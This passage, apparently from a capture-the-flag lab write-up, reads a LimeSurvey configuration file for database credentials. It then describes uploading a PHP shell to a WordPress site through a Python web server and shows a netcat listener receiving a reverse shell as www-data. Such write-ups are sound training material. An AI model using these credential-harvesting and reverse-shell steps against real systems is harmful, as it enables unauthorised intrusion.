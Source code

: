 ```shell
tests
themes
third_party
tmp
upload

$ cat application/config/config.php

return array(
        'components' => array(
                'db' => array(
                        'connectionString' => 'mysql:host=localhost;port=3306;dbname=limedb;',
                        'emulatePrepare' => true,
                        'username' => 'Anny',
                        'password' => '[REDACTED]',
                        'charset' => 'utf8mb4',
                        'tablePrefix' => 'lime_',
                ),

                // Uncomment the following lines if you need table-based sessions.
                // Note: Table-based sessions are currently not supported on MSSQL server.
                // 'session' => array (
                        // 'class' => 'application.core.web.DbHttpSession',
                        // 'connectionID' => 'db',
                        // 'sessionTableName' => '{{sessions}}',
                // ),

                'urlManager' => array(
                        'urlFormat' => 'path',
                        'rules' => array(
                                // You can add your own rules here
                        ),
                        'showScriptName' => true,
                ),

```
With the credentials obtained, log in to port **443** of **Wordpress** adding the ssl certificate
in the wordpress installer that is in an easy path to find.
![wordpress](https://i.imgur.com/lxaffW3.png)
Since we cannot do anything in wordpress, we get rce again and this time we configure a shell in php and we build a python web server to transfer the shell to the victim machine.

```shell
❯ nc -nlvp 9001
Listening on [0.0.0.0] (family 0, port 9001)
Connection from [10.10.221.248] port 9001 [tcp/*] accepted (family 2, sport 54328)
Linux ubuntu 4.15.0-112-generic #113~16.04.1-Ubuntu SMP Fri Jul 10 04:37:08 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 12:12:39 up  4:37,  1 user,  load average: 0.15, 0.06, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
veronica tty7     :0               07:35    4:37m  1:38   0.13s /sbin/upstart --user
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
